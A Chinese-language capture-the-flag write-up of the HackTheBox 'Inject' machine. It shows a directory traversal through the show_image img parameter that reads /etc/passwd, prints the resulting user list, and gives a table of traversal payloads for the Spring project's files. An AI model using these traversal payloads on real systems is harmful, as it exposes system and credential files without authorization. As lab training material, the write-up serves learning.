 尝试在img参数放放单引号什么的，没啥用。  

#### 目录遍历

尝试目录遍历，发现 `img=../` 能显示文件：  
![HTB-Inject-directory_traversal](./../evidence-img/HTB-Inject-directory_traversal.png)

噢……看来不是上传webshell

尝试获取 `/etc/passwd`：
```
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1

---

root:x:0:0:root:/root:/bin/bash
……
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

注意这两个id 1000以后的：  
> frank:x:1000:1000:frank:/home/frank:/bin/bash  
> phil:x:1001:1001::/home/phil:/bin/bash


可以发现user.txt就在phil的家目录里，不过访问了一下没有获取到结果，应该是没有权限。

再回到最初的 `../` 目录下，好像看到java。应该是关于8080端口部署的服务。  
探索：

| payload | 信息 |
| - | - |
| ../../../.project | \<name\>org.springframework.ide.eclipse.boot.validation.springbootbuilder\</name\> |
| ../../../HELP.md | Official Apache Maven |
| ../../../pom.xml | http://maven.apache.org/POM/4.0.0 |
